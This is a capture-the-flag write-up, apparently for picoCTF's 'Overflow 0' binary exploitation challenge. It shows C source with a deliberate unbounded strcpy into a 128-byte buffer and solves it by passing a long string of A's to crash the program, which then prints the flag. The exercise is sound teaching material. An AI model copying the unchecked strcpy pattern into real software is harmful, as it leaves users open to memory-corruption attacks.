 # Overflow 0 - 100 points
Binary Exploitation

## Description:
> This should be easy. Overflow the correct buffer in this program and get a flag.

### Files in shell: vuln.c, vuln, flag.txt

### vuln.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
## Solving:

In this challenge, we just need to trigger the segmentation fault to make the sigsegv_handler call the contents of the flag.txt by producing an argument/input that is more than the stated buffer of 128 bytes. Rather than creating a python script for this, you can simply just produce a long string of A's in bash with:

```c
string=$(printf "%200s"); echo ${string// /A}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```c
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{3asY_P3a5yd4a28467}
```

Definetly not as elegent as using pwntools but did the job. 

